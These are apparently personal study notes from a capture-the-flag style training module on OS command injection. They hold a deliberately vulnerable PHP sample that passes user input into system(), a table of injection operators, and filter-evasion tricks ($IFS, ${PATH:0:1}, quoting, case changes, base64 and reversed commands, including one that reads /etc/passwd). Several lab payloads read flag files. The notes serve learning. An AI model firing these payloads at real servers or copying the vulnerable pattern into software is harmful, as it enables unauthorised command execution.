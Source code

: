 # OS Command Injection

### **What is OS Command Injection?**

Run system commands on the server.

- Server-side bug.

### **Types:**

- **Blind** → No output shown.
- **Output-Based** → Output is visible.

### **Example:**

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
# touch /tmp/test.pdf; whoami
?>

```

---

### **Command Injection Methods**

To inject an additional command to the intended one, we may use any of the following operators:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ```` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

These work for command injections, no matter the language or framework.

**Bypassing Front-end Validation**

Custom HTTP requests can bypass front-end validations (using Burp Suite).

![image.png](image.png)

### Bypassing Filters

- **New Line (`\n`%0a)**: Works as injection operator.
- **Spaces**: Can bypass using:
    - **Tabs (`%09`)**: Works like a space.
    - **`$IFS`**: Replaces space with `${IFS}`.
    - `${LS_COLORS:10:1}` → ;
    - **Brace Expansion**: Adds spaces automatically (`{ls,-la}`).
- **Bypass Blacklisted Characters**:
    - **Linux**: Use variables like `${PATH}` to get `/` or `;`.
    - **Windows**: Use `%HOMEPATH%` to get `\`.
    - PowerShell → Indexing.
    - **Case Manipulation** ( `whoami` → `WhOamI` ):
        - Linux systems are case-sensitive.
            - `whOamI`  ≠ `whoami`
            - But we have a command to make the word lowercase. (`tr`)
            
            ```bash
            qht@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
            # whOamI to whoami
            ```
            
        - Windows, commands for PowerShell and CMD are case-insensitive.
            - `whOamI`  == `whoami`

### Bypassing Blacklist Commands

- **Case Manipulation →** `WhoAmi`
- **Linux Only:** `\` or `$@` → `who$@ami`
- **Linux & Windows:** `'` or `"` → `w'h'o'am'i`
- **Windows Only:** `^` → `who^ami`

### Advanced Command Obfuscation

- **Reversed Commands** ( `imaohw` instead of `whoami` ):
    - Use `echo 'whoami' | rev` to reverse `whoami` to `imaohw`.
    - To run the command, use `$(rev <<< 'imaohw')`.
    
    ![image.png](image%201.png)
    
    - Windows:
        - Use `"whoami"[-1..-20] -join ''` to reverse `whoami` to `imaohw`.
        - To run the command, use `iex "$('imaohw'[-1..-20] -join '')"`.
- **Encoded Commands**
    - base64
        - Use `echo -n 'cat /etc/passwd | grep 33' | base64` to encode the payload.
        - To run the command, use `bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`.
        - Windows:
            - `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

---

### Lab1

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass

🔹 **Final Payload:** `ls -la /home` → `127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home`

### Lab2

- **`%0a`** → Newline (Enter)
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass
- `{PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt` → /home/1nj3c70r/flag.txt

🔹 **Final Payload:** `127.0.0.1%0ac'a't$IFS${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

### Lab3

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` → `WhOaMi` to `whoami`

🔹 **Final Payload:** `127.0.0.1%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"WhOaMi")`

### Lab4

- **Task**:
    - Using one of the techniques you learned To run the command:
        - `find /usr/share/ | grep root | grep mysql | tail -n 1`
- Encode the command: `ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=`
- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `bash<<<**$**(base64 -d<<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` → Decrypt bas64 and run the command

🔹 **Final Payload:** `127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

### **Skills Assessment ( Lab5 )**

- Task: Get the content of '`/flag.txt`’
- guest@guest
- `%26` → URL-Encoded of ‘&’
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- `${PATH:0:1}flag.txt` → /flag.txt

🔹 **Final Payload:**

`/index.php?to=&from=51459716.txt%26c'a't${IFS}${PATH:0:1}flag.txt&finish=1&move=1`